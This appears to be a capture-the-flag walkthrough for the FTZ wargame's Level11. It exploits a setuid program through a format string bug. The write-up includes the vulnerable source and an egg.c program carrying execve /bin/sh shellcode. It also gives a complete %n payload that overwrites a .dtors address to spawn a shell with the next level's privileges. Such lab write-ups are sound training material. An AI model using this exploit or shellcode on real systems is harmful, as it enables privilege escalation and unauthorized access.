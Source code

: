 # Level11

## This level's goal

- FSB(Format String Bug)
- Shell code

***

```
[level11@ftz level11]$ ls -l
total 28
-rwsr-x---    1 level12  level11     13733 Mar  8  2003 attackme
-rw-r-----    1 root     level11       168 Mar  8  2003 hint
drwxr-xr-x    2 root     level11      4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level11      4096 Jan 14  2009 tmp

[level11@ftz level11]$ cat hint

#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
```

The hint seems the vulnerability of FSB and BOF   
I will exploit with FSB

```
[level11@ftz level11]$ ./attackme
Segmentation fault
```

This seems that Segmentation falut will be printed if there is no argument and then the argv[1] is the value of garbage.

```
[level11@ftz level11]$ ./attackme "AAAA"
AAAA
[level11@ftz level11]$ ./attackme "AAAA %x"
AAAA bffffc40
[level11@ftz level11]$ ./attackme "AAAA %x %x"
AAAA bffffc3d bffff300
[level11@ftz level11]$ ./attackme "AAAA %x %x %x"
AAAA bffffc3a bfffdb80 1
[level11@ftz level11]$ ./attackme "AAAA %x %x %x %x"
AAAA bffffc37 bfffde00 1 41414141
```

41414141(means AAAA) was printed in fourth that you can exploit in here.

I will make the shell code(egg.c) and getenv.c(To get egg's address)

```
[level11@ftz tmp]$ cat egg.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define DEFAULT_OFFSET 0
#define DEFAULT_ADDR_SIZE 8
#define DEFAULT_BUFFER_SIZE 512
#define DEFAULT_SUPERDK_SIZE 2048
#define NOP 0x90

char shellcode[] =
 "\x31\xc0\x31\xd2\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
 "\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80";

unsigned long get_sp(void)
{
        __asm__("movl %esp, %eax");
}

int main(int argc, char **argv)
{
        char *ptr, *superSH;
        char shAddr[DEFAULT_ADDR_SIZE + 1];
        char cmdBuf[DEFAULT_BUFFER_SIZE];
        long *addr_ptr,addr;
        int offset=DEFAULT_OFFSET;
        int i, supershLen=DEFAULT_SUPERDK_SIZE;
        int chgDec[3];

        if(!(superSH = malloc(supershLen)))
        {
                printf("Can't allocate memory for supershLen");
                exit(0);
        }

        addr = get_sp() - offset;
        printf("Using address: 0x%x\n", addr);

        ptr = superSH;
        for(i=0; i<supershLen - strlen(shellcode) - 1; i++)
                *(ptr++) = NOP;

        for(i=0; i<strlen(shellcode); i++)
                *(ptr++) = shellcode[i];

        superSH[supershLen - 1] = '\0';

        memcpy(superSH, "SUPERDK=", DEFAULT_ADDR_SIZE);
        putenv(superSH);

        system("/bin/bash");
}

[level11@ftz tmp]$ cat getenv.c

#include <stdio.h>

int main()
{
        printf("SUPERDK's addr=%p\n", getenv("SUPERDK"));
}
```

```
[level11@ftz level11]$ nm attackme
08049610 d __DTOR_END__

[level11@ftz tmp]$ ./egg
Using address: 0xbfffe988

[level11@ftz tmp]$ ./getenv
SUPERDK's addr=0xbffff49d
```

The attack code format   
`/home/level11/attackme $(printf "AAAAAddress1BBBBAddress2")%8x%8x%8x%Value1c%n%Value2c%n`

Address1 : \x10\x96\x04\x08(08049610)   
Address2(Address+1) : \x12\x96\x04\x08(08049612)   

0xbffff49d will be (Value2/Value1) cuz this will be inverted when you input   
Value1 : f49d - 40 = 62621(f49d) - 40 = 62581   
Value2 : 1bfff-f49d = 114687(1bfff) - 62621(f49d) = 52066

So, the attack code is   
`/home/level11/attackme $(printf "AAAA\x10\x96\x04\x08BBBB\x12\x96\x04\x08")%8x%8x%8x%62581c%n%52066c%n`

```
[level11@ftz level11]$ ./attackme $(printf "AAAA\x10\x96\x04\x08BBBB\x12\x96\x04\x08")%8x%8x%8x%62581c%n%52066c%n

sh-2.05b$ my-pass

Level12 Password is "it is like this".
```
